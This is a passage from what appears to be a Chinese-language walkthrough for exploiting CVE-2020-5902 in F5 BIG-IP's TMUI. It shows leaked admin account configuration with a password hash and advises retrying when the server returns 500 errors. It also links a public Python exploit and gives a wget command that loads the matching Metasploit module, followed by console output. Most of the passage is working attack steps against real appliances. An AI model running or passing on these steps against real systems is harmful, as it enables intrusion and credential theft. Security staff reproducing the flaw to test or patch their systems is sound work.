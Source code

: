 ```http
{"error":"","output":"auth user admin {\n    description \"Admin User\"\n    encrypted-password $6$iae1LEWL$UHp47yM0TDm9ly5xMwixyNu8TTYNcFLrEplrdqiZ82eMzX3ISbjY3VEYIAmuT\/EK7ybt2GN..pyvZpBehnLI31\n    partition Common\n    partition-access {\n        all-partitions {\n            role admin\n        }\n    }\n    shell none\n}\n"}

```

漏洞截图如下

![14](14.png)

![15](15.png)

*PS:执行返回500错误的时候多执行几次即可成功*

**使用github python脚本工具执行命令**

```https://github.com/jas502n/CVE-2020-5902```

![16](16.png)

修改目标地址

![17](17.png)

运行python脚本

![18](18.png)

### MSF 

MSF f5_bigip_tmui_rce 漏洞利用脚本

```
https://github.com/rapid7/metasploit-framework/blob/0417e88ff24bf05b8874c953bd91600f10186ba4/modules/exploits/linux/http/f5_bigip_tmui_rce.rb
```

**msf use**

```sh
wget -P /usr/share/metasploit-framework/modules/exploits/linux/http/ https://raw.githubusercontent.com/rapid7/metasploit-framework/0417e88ff24bf05b8874c953bd91600f10186ba4/modules/exploits/linux/http/f5_bigip_tmui_rce.rb
reload_all
exploit/linux/http/f5_bigip_tmui_rce 2020-06-30 excellent Yes F5 BIG-IP TMUI Directory Traversal and File Upload RCE
╭─root@kali ~ 
╰─# msfconsole 
                                                  
     ,           ,
    /             \
   ((__---,,,---__))
      (_) O O (_)_________
         \ _ /            |\
          o_o \   M S F   | \
               \   _____  |  *
                |||   WW|||
                |||     |||


       =[ metasploit v5.0.87-dev                          ]
+ -- --=[ 2007 exploits - 1096 auxiliary - 343 post       ]
+ -- --=[ 562 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 7 evasion                                       ]
```